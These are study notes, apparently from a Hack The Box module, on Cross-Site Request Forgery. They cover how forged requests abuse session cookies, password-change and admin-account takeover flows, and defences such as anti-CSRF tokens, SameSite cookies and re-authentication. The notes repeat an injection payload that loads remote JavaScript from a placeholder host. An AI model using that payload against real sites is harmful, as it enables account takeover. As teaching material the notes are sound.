



# What is Cross-Site Request Forgery (CSRF)?

**Cross-Site Request Forgery (CSRF)** is a web security vulnerability that tricks an authenticated user into performing unwanted actions on a web application where they are currently logged in.

Unlike XSS, CSRF does not primarily focus on executing JavaScript in the victim's browser. Instead, it abuses the victim's authenticated session to perform actions on their behalf.

### Simple Definition

> CSRF forces a logged-in user to unknowingly send requests to a web application, causing actions to be performed using the victim's privileges.

---

# Why is CSRF Dangerous?

If a victim is authenticated to a website, an attacker may:

- Change account passwords
    
- Change email addresses
    
- Transfer funds
    
- Delete data
    
- Modify account settings
    
- Create new administrator accounts
    
- Perform actions as the victim
    
- Compromise administrator accounts
    

---

# Core Concept

### Important

The web application trusts requests because:

```text
Valid Session Cookie Present
```

The application assumes:

```text
Request = Legitimate User
```

However:

```text
Request = Attacker-Controlled
```

while still carrying the victim's authentication cookie.

---

# How CSRF Works

## Normal Scenario

```text
User Logs In
      ↓
Receives Session Cookie
      ↓
Clicks Change Password
      ↓
Password Changes
```

---

## CSRF Scenario

```text
Victim Logs In
      ↓
Session Cookie Stored
      ↓
Victim Visits Malicious Page
      ↓
Hidden Request Sent
      ↓
Website Accepts Request
      ↓
Action Performed
```

---

## CSRF Attack Flow



---

# Visual Example

---

# Relationship Between XSS and CSRF

CSRF often becomes more dangerous when combined with XSS.

## XSS

```text
Execute JavaScript
```

---

## CSRF

```text
Use Victim Session
```

---

### Combined Attack

```text
XSS Vulnerability
         ↓
JavaScript Executes
         ↓
Sends Authenticated Requests
         ↓
CSRF Action Occurs
```

---

# HTB Password Change Example

A common attack is:

```text
Victim Logged In
        ↓
Malicious JavaScript Executes
        ↓
Password Changed
        ↓
Attacker Logs In
```

---

## Step-by-Step

### Step 1

Victim logs into website.

Example:

```text
sessionid=ABC123XYZ
```

---

### Step 2

Victim visits page containing malicious payload.

---

### Step 3

JavaScript automatically sends:

```http
POST /change-password
```

---

### Step 4

Password becomes:

```text
P@ssword123
```

(attacker-chosen password)

---

### Step 5

Attacker logs in using:

```text
Victim Username
+
Attacker Password
```

---

# HTB Example Payload

Important payload from the module:

```html
"><script src=//www.example.com/exploit.js></script>
```

---

# What Does It Do?

Loads an external JavaScript file.

Browser executes:

```html
<script src=//www.example.com/exploit.js>
```

---

### Process

```text
Victim Loads Page
       ↓
Remote JavaScript Downloaded
       ↓
exploit.js Executes
       ↓
Authenticated Requests Sent
       ↓
Account Modified
```

---

# Visualization



---

# What is exploit.js?

According to the HTB example:

```text
exploit.js
```

contains malicious JavaScript that performs actions automatically.

Examples include:

- Password change
    
- Email change
    
- Account settings modification
    
- Privilege escalation
    

---

# Important Requirement

To build a successful CSRF attack, an attacker often needs knowledge of:

### Application Endpoints

Example:

```http
POST /change-password
```

---

### Parameters

Example:

```http
new_password=
```

---

### APIs

Example:

```http
/api/user/password
```

---

### Request Structure

Example:

```http
POST /change-password

newpassword=Password123
confirm=Password123
```

---

# CSRF Against Administrators

One of the most dangerous scenarios.

---

## Normal User

May only modify:

```text
Own Profile
Own Settings
```

---

## Administrator

May modify:

```text
Users
Permissions
Configurations
Servers
Applications
```

---

## Attack Flow

```text
Admin Logs In
      ↓
Visits Malicious Page
      ↓
CSRF Executes
      ↓
New Admin Account Created
      ↓
Attacker Gains Access
```

---

# CSRF vs XSS

|Feature|XSS|CSRF|
|---|---|---|
|Executes JavaScript|✅|Sometimes|
|Requires Victim Login|❌|✅|
|Uses Victim Session|Sometimes|✅|
|Steals Cookies|✅|Usually No|
|Performs Actions|✅|✅|
|Password Change Attack|✅|✅|
|Account Takeover|✅|✅|

---

# Prevention

HTB emphasizes two critical protections:

## 1. Sanitization

### Definition

Removing dangerous characters before storing or displaying data.

---

### Example

Input:

```html
<script>alert(1)</script>
```

---

Sanitized:

```text
alert(1)
```

or removed completely.

---

## Sanitization Flow

```text
User Input
      ↓
Dangerous Characters Removed
      ↓
Safe Storage
```

---

# 2. Validation

### Definition

Ensuring submitted data matches expected format.

---

### Example

Email validation:

```text
test@gmail.com
```

Valid.

---

```text
<script>alert(1)</script>
```

Invalid.

---

### Validation Flow

```text
User Input
      ↓
Format Check
      ↓
Accept / Reject
```

---

# Input Validation vs Sanitization

|Control|Purpose|
|---|---|
|Validation|Check format|
|Sanitization|Remove dangerous content|

---

# Output Sanitization

Even after storing data safely:

```text
Database
      ↓
Retrieve Data
      ↓
Sanitize Again
      ↓
Display
```

This creates another layer of defense.

---

# Web Application Firewall (WAF)

A WAF can help block attacks automatically.

---

## Functions

Detects:

- XSS
    
- SQL Injection
    
- HTML Injection
    
- CSRF patterns
    

---

## Important HTB Point

A WAF:

```text
Helps Security
```

but:

```text
Does NOT Replace Secure Coding
```

---

### Why?

Attackers may:

```text
Bypass WAF Rules
```

Therefore:

```text
Secure Code First
WAF Second
```

---

# Modern Browser XSS Protections

Modern browsers include defenses against:

```text
Automatic JavaScript Execution
```

Examples:

- Script filtering
    
- CSP support
    
- Sandboxing
    

---

## Important

These protections:

```text
Reduce Risk
```

but:

```text
Do NOT Eliminate XSS
```

---

# Anti-CSRF Tokens

One of the most important defenses.

---

## How It Works

### User Request

```http
POST /change-password
```

contains:

```http
csrf_token=9f73d82ab1
```

---

### Server Verification

```text
Token Valid?
      ↓
Yes → Accept
No  → Reject
```

---

# CSRF Token Flow



---

# SameSite Cookie Protection

Modern browsers support:

```http
SameSite=Strict
```

or

```http
SameSite=Lax
```

---

## Purpose

Prevent authentication cookies from being automatically included in many cross-site requests.

---

### Example

```http
Set-Cookie:
session=abc123;
SameSite=Strict
```

---

## Result

```text
Malicious Website
        ↓
Attempts Request
        ↓
Cookie Not Sent
        ↓
CSRF Fails
```

---

# Password Re-Authentication

A practical protection.

Before:

```text
Change Password
```

Require:

```text
Current Password
```

---

## Why?

Even if CSRF occurs:

```text
Attacker Does Not Know Password
```

so request fails.

---

# Defense in Depth

HTB emphasizes:

```text
No Single Defense is Perfect
```

Use multiple layers.

---

## Recommended Layers

```text
Input Validation
       +
Input Sanitization
       +
Output Encoding
       +
Anti-CSRF Tokens
       +
SameSite Cookies
       +
Password Confirmation
       +
WAF
```

---

# Important Exam / HTB Points

### Remember

✅ CSRF = Performing actions as an authenticated user

✅ Exploits trust in the victim's session

✅ Often combined with XSS

✅ HTB Payload:

```html
"><script src=//www.example.com/exploit.js></script>
```

✅ Common Goal:

```text
Password Change
```

✅ High-Value Targets:

```text
Administrators
```

✅ Main Defenses:

- Sanitization
    
- Validation
    
- Anti-CSRF Tokens
    
- SameSite Cookies
    
- Password Re-authentication
    
- Output Encoding
    
- WAF
    

---

# Quick Revision (1 Minute)

```text
Cross-Site Request Forgery (CSRF)

Definition:
Forces authenticated users
to perform unwanted actions.

Requirements:
• Victim Logged In
• Valid Session

Common Attack:
Password Change

HTB Payload:
"><script src=//www.example.com/exploit.js></script>

Targets:
• Users
• Administrators

Protections:
• Input Validation
• Input Sanitization
• Output Sanitization
• Anti-CSRF Tokens
• SameSite Cookies
• Password Confirmation
• WAF

Key Concept:
Website trusts victim's
authenticated session.
```

## Attack Chain Summary

```text
XSS/Injected Payload
          ↓
Victim Visits Page
          ↓
JavaScript Executes
          ↓
Authenticated Request Sent
          ↓
Server Trusts Session
          ↓
Action Performed
          ↓
Account Compromise
```

These notes preserve the important HTB examples, payloads, prevention mechanisms, and exam-focused concepts while expanding them into a complete revision guide.